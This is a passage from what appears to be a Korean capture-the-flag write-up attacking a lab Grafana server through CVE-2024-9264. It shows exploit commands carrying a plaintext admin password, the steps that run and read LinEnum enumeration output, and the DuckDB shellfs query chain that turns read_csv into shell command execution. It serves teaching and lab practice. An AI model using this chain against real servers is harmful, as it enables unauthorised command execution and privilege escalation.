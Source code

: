 **명령어 분석:**

- `./linenum.sh.3`: 다운로드한 스크립트 실행
- `> /tmp/enum_result.txt`: 표준 출력을 파일로 리다이렉션
- `2>&1`: 표준 에러도 표준 출력으로 합쳐서 저장

#### 4-3. 실행 완료 확인

```bash
# 스크립트 실행 상태 확인
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "ls -la /tmp/enum_result.txt" http://grafana.planning.htb
```

### 5단계: 결과 데이터 추출

```bash
# 수집된 시스템 정보 읽기
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -q "SELECT content FROM read_blob('/tmp/enum_result.txt')" http://grafana.planning.htb
```

**명령어 분석:**

- `/tmp/enum_result.txt`: LinEnum 스크립트 실행 결과가 저장된 파일
- **목적**: 권한 상승 가능한 취약점들을 분석

## 데이터 흐름 완전 분석

### 파일 저장 위치 맵핑

**공격자 시스템 (Kali - 10.10.16.12):**

```
/root/exploit/
├── linenum.sh              # 원본 LinEnum 스크립트
├── CVE-2024-9264.py        # 익스플로잇 도구
└── cookies.txt             # Grafana 세션 쿠키
```

**타겟 시스템 (Ubuntu - 10.10.11.68):**

```
/root/
├── linenum.sh.3            # 다운로드된 스크립트 (중복으로 .3 접미사)

/tmp/
├── grafana_cmd_output      # CVE 명령 실행 결과 임시 저장
└── enum_result.txt         # LinEnum 실행 결과 (최종 분석 대상)
```

### CVE-2024-9264 내부 동작 원리

#### DuckDB 쿼리 체인 분석

```sql
-- 1단계: 기본 연결 테스트
SELECT 1;

-- 2단계: 쉘 확장 모듈 설치
install shellfs from community;

-- 3단계: 쉘 모듈 로드
LOAD shellfs;

-- 4단계: 명령 실행 (핵심 취약점)
SELECT * FROM read_csv('명령어 >/tmp/grafana_cmd_output 2>&1 |');

-- 5단계: 결과 읽기
```